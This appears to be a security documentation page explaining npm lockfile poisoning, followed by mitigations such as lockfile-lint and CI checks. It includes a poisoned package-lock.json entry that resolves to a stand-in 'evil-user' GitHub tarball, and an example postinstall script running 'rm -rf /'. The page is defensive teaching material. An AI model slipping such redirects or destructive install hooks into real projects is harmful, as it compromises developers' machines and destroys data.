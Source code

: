 ```yaml
---
sidebar_position: 2
id: lockfile-attack
title: Lockfile Poisoned
slug: /attacks/lockfile-posioned
---
```


# Lockfile Attack

## The Attack

This attack is very specific to the Nodejs ecosystem and it [was discovered in 2019](https://snyk.io/blog/why-npm-lockfiles-can-be-a-security-blindspot-for-injecting-malicious-modules/) by [Liran Tal](https://twitter.com/liran_tal).

It is quite common to include external dependencies in Nodejs. The ecosystem is heavily based in [NPM Registry (+1M packages)](https://www.npmjs.com/).

Most projects manage their dependencies using the Npm official client or Yarn. A few years ago, both tools introduced the lockfile concept to the ecosystem (`package-lock.json` and `yarn.lock`).

If the project has a lockfile available, the package manager will install the dependencies from the lockfile as the primary source of truth. This lead us to a new vector where a malicious actor can submit a poisonous dependency through the lockfile as most of maintainers don't review the lockfiles during the PR Reviews.

This is a regular `package-lock.json`.

```json
{
  "name": "my-project",
  "version": "0.0.1",
  "lockfileVersion": 1,
  "requires": true,
  "dependencies": {
    "@babel/code-frame": {
      "version": "7.8.3",
      "resolved": "https://registry.npmjs.org/@babel/code-frame/-/code-frame-7.8.3.tgz",
      "integrity": "sha512-a9gxpmdXtZEInkCSHUJDLHZVBgb1QS0jhss4cPP93EW7s+uC5bikET2twEF3KV+7rDblJcmNvTR7VJejqd2C2g==",
      "dev": true,
      "requires": {
        "@babel/highlight": "^7.8.3"
      }
    }
    //...
  }
}
```

The malicious attack takes place when the `resolved` and `integrity` are not corresponding to official sources:


```json
{
  "name": "my-project",
  "version": "0.0.1",
  "lockfileVersion": 1,
  "requires": true,
  "dependencies": {
    "@babel/code-frame": {
      "version": "7.8.3",
      "resolved": "https://github.com/evil-user/code-frame/tarball/master",
      "integrity": "sha512-VT0ZI6kZRdTh8YyJw3SMbYm/u+NqfsAxEpWO0Pf9sq8/e94WxxOpPKx9FR1FlyCtOVDNOQ+8ntlqFxiRc+r5qA==",
      "dev": true,
      "requires": {
        "@babel/highlight": "^7.8.3"
      }
    }
    //...
  }
}
```

So the risk in this case is that `@babel/code-frame` is not installed from the NPM registry. This can lead to many attacks based on the npm lifecycle (pre-install, post-install...)

As an example of malicious script added in the poisoned version of `@babel/code-frame`
```
"scripts": {
   "postinstall": "rm -rf /",
}
```

## The solution

There are no definitive solutions to avoid this attack, but it can be highly mitigated.

## Mitigation

- Always review the lockfiles in the PRs.
- Use a tool to check the lockfile sources enables like `lockfile-lint`
    ```bash
    npx lockfile-lint --path yarn.lock --type yarn --validate-https --allowed-hosts yarnpkg.org
    ```
- Include the validation tools in the CI process (testing phase and security checks)
- Optional: You can include the sources validation with Git Hooks too (using Husky)


### Refs
- [Snyk | What is package lock json and how a lockfile works for yarn and npm packages?](https://snyk.io/blog/what-is-package-lock-json/)
- [Snyk | Why npm lockfiles can be a security blindspot for injecting malicious modules](https://snyk.io/blog/why-npm-lockfiles-can-be-a-security-blindspot-for-injecting-malicious-modules/)
- [Medium | Everything You Wanted To Know About package-lock.json But Were Too Afraid To Ask](https://medium.com/coinmonks/everything-you-wanted-to-know-about-package-lock-json-b81911aa8ab8)
